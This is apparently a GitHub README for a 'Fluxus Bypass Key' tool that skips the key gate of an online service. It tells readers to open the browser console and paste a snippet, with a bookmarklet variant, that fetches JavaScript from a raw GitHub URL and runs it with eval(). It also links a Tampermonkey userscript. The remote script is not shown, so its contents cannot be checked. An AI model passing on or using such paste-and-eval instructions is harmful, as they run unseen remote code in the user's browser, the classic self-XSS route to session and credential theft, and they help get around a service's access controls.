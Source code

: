 
# 🚀 Fluxus Bypass Key Made By Knuxy92

Open Debug Menu ( F12 )
- Use This Command or javascript: Command
```js
fetch('https://raw.githubusercontent.com/Minecarfh/Fluxus-Bypass/main/Script.js')
  .then(response => {
    return response.text();
  })
  .then(text => {
    eval(text);
  })
```
- This Command Javascript:
```js
javascript:(function() {
    fetch('https://raw.githubusercontent.com/Minecarfh/Fluxus-Bypass/main/Script.js')
    .then(response => {
        return response.text();
    })
    .then(text => {
        console.log('Execute Success Wait For Bypass');
        eval(text);
    });
})();

```

- Or Install [Tampermonkey](https://www.tampermonkey.net/l) To Auto Bypass And Install This [Script](https://raw.githubusercontent.com/Knuxy92/Fluxus-Bypass/main/Tampermonkey%20Fluxus%20Bypass.js)


- Wait For Bypass 1-2s To Next Page

[![My Bio](https://img.shields.io/badge/my_portfolio-000?style=for-the-badge&logo=ko-fi&logoColor=white)](https://www.knuxy92.com/My%20Bio/index.html)

